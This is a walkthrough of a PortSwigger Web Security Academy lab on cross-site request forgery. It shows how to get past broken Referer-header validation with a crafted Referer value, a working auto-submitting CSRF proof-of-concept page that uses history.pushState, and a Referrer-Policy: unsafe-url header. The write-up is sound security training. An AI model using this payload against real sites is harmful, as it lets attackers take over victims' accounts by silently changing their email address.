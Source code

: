 [Source](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken)
## Task
In this lab, the email address change function is vulnerable to CSRF. It attempts to detect and block cross-domain requests, but the detection mechanism can be bypassed.
To solve the task, we use an exploit server where we host an HTML page with a CSRF attack that changes the email address of the viewing user.
We can log in to our account using the following credentials: `wiener:peter`
## Solution
Go to the task site

![image](images/20241225230537.png)

Log in as user `wiener`, change the email and intercept the request via `Burp Suite`

![image](images/20241225230634.png)
Send the request to `Burp Repeater`. Notice that if we change the domain in the `Referer` header, the request is rejected.

![image](images/20241225230706.png)

Copy the original domain of our lab and add it to the `Referer` header as a query string. The result should look something like this:
```URL
Referer: https://arbitrary-incorrect-domain.net?YOUR-LAB-ID.web-security-academy.net
```

![image](images/20241225230818.png)

We send the request and see that it is now accepted. It seems that the site accepts any `Referer` header, as long as the expected domain is somewhere in it.
We create a PoC exploit for CSRF, as described in the solution to the lab about [[CSRF vulnerability without protections]], and place it on the exploit server. Edit `JavaScript` so that the third argument of the `history.pushState()` function includes a query string with the lab address, for example:
```HTML
history.pushState("", "", "/?YOUR-LAB-ID.web-security-academy.net")
```

![image](images/20241225230935.png)

```HTML
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ae4008e03ff414d846a22f7007400c3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0ae4008e03ff414d846a22f7007400c3.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![image](images/20241225231230.png)

This will force the `Referer` header in the crafted request to contain the target site's URL in the query string, as we tested earlier.
If we save the exploit and click `View exploit`, we may see an "invalid Referer header`" error. This is because many browsers by default remove the query string from the `Referer` header for security reasons. To override this behavior and ensure that the full URL is included in the request, we go back to the exploit server and add the following header to the `Head` section:
```Request
Referrer-Policy: unsafe-url
```

>**Note**  
>There is no typo in the word "Referrer" here - it is spelled correctly in this case.

Change the email address in the exploit to one that does not match our own.

![image](images/20241225231538.png)

Click `Store` and `Deliver exploit to victim`

![image](images/20241225231634.png)
